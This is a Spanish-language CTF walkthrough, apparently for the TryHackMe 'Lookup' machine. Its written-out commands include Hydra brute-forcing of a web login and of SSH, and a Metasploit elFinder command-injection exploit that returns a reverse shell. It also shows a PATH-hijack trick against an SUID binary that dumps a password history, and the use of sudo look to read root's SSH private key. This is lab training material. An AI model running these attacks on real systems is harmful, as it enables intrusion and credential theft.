


# Walkthrough - Máquina Lookup (TryHackMe)

## Configuracion del host'
Primero  entraremos a etc/hosts para configurar la ip junto con su dominio

##  Inspección de la Red con Nmap

Comenzamos con un escaneo de la red para identificar los servicios activos en el dominio:

```bash
nmap -sS -sV 10.10.220.167 -oN resultado.txt
```

### Resultado de Nmap

Se identificaron dos servicios activos:
```
# Nmap 7.94SVN scan initiated Fri Feb 21 16:39:30 2025 as: /usr/lib/nmap/nmap --privileged -A -oN resultado.txt lookup.thm
Nmap scan report for lookup.thm (10.10.220.167)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

- **SSH (puerto 22)**
- **HTTP (puerto 80)**

---

## Acceso a la Página Web

Accedemos al servicio HTTP mediante el navegador y encontramos la siguiente pantalla de **login**:


Intentamos probar credenciales comunes y obtenemos un mensaje de **usuario o contraseña incorrecta**:

Al analizar más a fondo con **Burp Suite**, encontramos que cuando se introduce un usuario válido, la respuesta cambia indicando **"Contraseña incorrecta"**, lo que permite la identificación de usuarios mediante fuerza bruta.


---

## Ataque de Fuerza Bruta con Hydra

Configuramos **Hydra** para identificar usuarios válidos:

```bash
hydra -L usuarios.txt -p abc lookup.thm http-post-form "/login.php:username=^USER^&password=abc:F=Wrong password"
```

**Usuarios identificados:**

- `admin`
- `jose`


Ahora, buscamos contraseñas para estos usuarios. Solo encontramos la contraseña de `jose`:


---
## Explotación del Servicio elFinder

Nos autenticamos y accedemos al servicio **elFinder**. Tras inspeccionar su versión (`2.1.47`), encontramos que es vulnerable.


Utilizamos **Metasploit** para explotarlo:

```bash
msf6 > use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set RHOSTS lookup.thm
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set LHOST 10.6.17.22
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > exploit
```


**Acceso conseguido como `www-data` en una shell restringida**:


---

## Escalada de Privilegios - Parte 1

Revisamos `/etc/passwd` y encontramos que el usuario `think` tiene permisos interesantes:


Buscamos archivos **SUID** para identificar posibles vías de escalamiento:

```bash
find / -perm -4000 -type f 2>/dev/null
```

**Ejecutable identificado:** `/usr/sbin/pwm`

Al analizar su funcionamiento, descubrimos que permite recuperar **el historial de contraseñas** de usuarios.


---

##  Obtención de la Contraseña de `think`

Creamos un archivo en `/tmp/id` y lo configuramos para obtener la contraseña de `think`:

```bash
echo "#!/bin/bash" > /tmp/id
echo "uid=33(think) gid=33(think) groups=(think)" >> /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```


 **Historial de contraseñas recuperado:**
Creamos un diccionario con estas contraseñas y usamos **Hydra** para atacar SSH:

```bash
hydra -l think -P pass ssh://lookup.thm
```


**Credenciales obtenidas:**

- **Usuario:** `think`
- **Contraseña:** `josemario.AKA(think)`

Nos autenticamos en SSH:

```bash
ssh think@lookup.thm
```

 **Flag de usuario obtenida:**

```bash
cat user.txt
```


---

##  Escalada de Privilegios - Parte 2

Revisamos los permisos `sudo` del usuario `think`:

```bash
sudo -l
```

**Permiso especial detectado:**

```bash
User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```


Usamos `look` para ver si hay una clave privada de SSH:

```bash
sudo /usr/bin/look '' /root/.ssh/id_rsa
```

 **Clave privada obtenida:**


La configuramos con permisos adecuados y accedemos como `root`:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@lookup.thm
```

 **Última flag obtenida:**

```bash
cat /root/root.txt
```


---

## **Conclusión**

- **Identificamos** servicios vulnerables con **Nmap**.
- **Descubrimos** usuarios válidos mediante **fuerza bruta con Hydra**.
- **Explotamos** el servicio **elFinder** con **Metasploit**.
- **Escalamos privilegios** explotando un **binario SUID (`pwm`)**.
- **Obtenemos acceso root** usando **sudo y el comando `look`**.

---
### 🏴‍☠️ Frase Inspiradora
> **"Si le das a un hacker un juguete nuevo, lo primero que hará es desmontarlo para ver cómo funciona."** – _Jamie Zawinski_